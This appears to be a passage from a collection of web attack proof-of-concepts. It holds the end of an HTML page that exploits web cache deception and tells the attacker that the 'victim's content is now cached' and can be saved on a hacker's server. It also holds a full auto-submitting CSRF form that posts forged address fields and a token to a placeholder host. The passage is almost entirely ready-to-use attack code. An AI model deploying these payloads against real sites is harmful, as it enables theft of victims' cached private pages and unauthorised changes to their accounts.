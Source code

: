 ```
          );
        }
        return content;
      }
      var checker = setInterval(function () {
        if (popup.closed) {
          clearInterval(checker);
        }
      }, 200);
      var closer = setInterval(function () {
        popup.close();
        document.body.innerHTML =
          'Victims content is now cached <a href="' +
          cachedUrl +
          '">here and the url can be saved on the hackers server</a><br><b>Full Url: ' +
          cachedUrl +
          "</b>";
        clearInterval(closer);
      }, 3000);
    </script>
  </body>
</html>


https://zhero-web-sec.github.io/cache-deception-to-csrf/
Web Cache Deception CSRF form 
<html>
    <form id="csrf" enctype="application/x-www-form-urlencoded" method="POST" action="https://www.nope.com/nope">
        <table>
            <tr><td>firstname</td><td><input type="text" value="zhero" name="firstname"></td></tr>
            <tr><td>lastname</td><td><input type="text" value="powned" name="lastname"></td></tr>
            <tr><td>address1</td><td><input type="text" value="8 rue test" name="address1"></td></tr>
            <tr><td>address2</td><td><input type="text" value="test" name="address2"></td></tr>
            <tr><td>postcode</td><td><input type="text" value="44000" name="postcode"></td></tr>
            <tr><td>city</td><td><input type="text" value="Nantes" name="city"></td></tr>
            <tr><td>id_country</td><td><input type="text" value="10" name="id_country"></td></tr>
            <tr><td>id_state</td><td><input type="text" value="124" name="id_state"></td></tr>
            <tr><td>phone_mobile</td><td><input type="text" value="2342342342" name="phone_mobile"></td></tr>
            <tr><td>alias</td><td><input type="text" value="sdfsdfsdfsdf" name="alias"></td></tr>
            <tr><td>token</td><td><input type="text" value="b1a437c8d5d36fc6cd189e3aa849798e" name="token"></td></tr>
            <tr><td>submitAddress</td><td><input type="text" value="" name="submitAddress"></td></tr>
        </table>
    </form>
    <script>
        document.getElementById('csrf').submit()
    </script>
</html>
```